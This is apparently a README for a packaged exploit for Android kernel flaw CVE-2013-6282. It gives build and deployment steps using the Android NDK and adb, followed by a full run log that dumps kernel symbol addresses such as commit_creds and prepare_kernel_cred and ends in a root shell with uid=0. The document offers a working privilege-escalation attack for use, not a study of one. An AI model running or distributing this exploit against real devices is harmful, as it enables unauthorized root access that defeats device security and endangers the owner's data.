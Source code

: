 
BUILDING:

Download the android ndk, e.g:
https://dl.google.com/android/repository/android-ndk-r10e-linux-x86_64.zip
(I used android-ndk-10d)

Unzip it and install ensure ndk-build is in your PATH

```
$ make root
ndk-build NDK_PROJECT_PATH=. APP_BUILD_SCRIPT=./Android.mk APP_PLATFORM=android-16 APP_ABI=armeabi
make[1]: Entering directory '/home/user/dev/git/exploits/CVE-2013-6282'
[armeabi] Compile thumb  : exploit <= exploit.c
[armeabi] Executable     : exploit
[armeabi] Install        : exploit => libs/armeabi/exploit
make[1]: Leaving directory '/home/user/dev/git/exploits/CVE-2013-6282'
adb push libs/armeabi/exploit /data/local/tmp/exploit
[100%] /data/local/tmp/exploit
adb shell 'chmod 777 /data/local/tmp/exploit'
adb shell '/data/local/tmp/exploit'
search kallsyms...
kallsyms_addresses=c0868160
kallsyms_num_syms=0000b3fc
dumping kernel...

prepare_kernel_cred=c033af9c
commit_creds=c033a7e8
ptmx_fops=c0aed088
ptmx_open=c04d037c
tty_init_dev=c04c9144
tty_release=c04c8b98
tty_fasync=c04c6278
ptm_driver=00000000

No shellcode, uid=0
root@android:/ # id
id
uid=0(root) gid=0(root)
root@android:/ # 
```

credits:
https://github.com/fi01/libput_user_exploit
https://twitter.com/cubeundcube

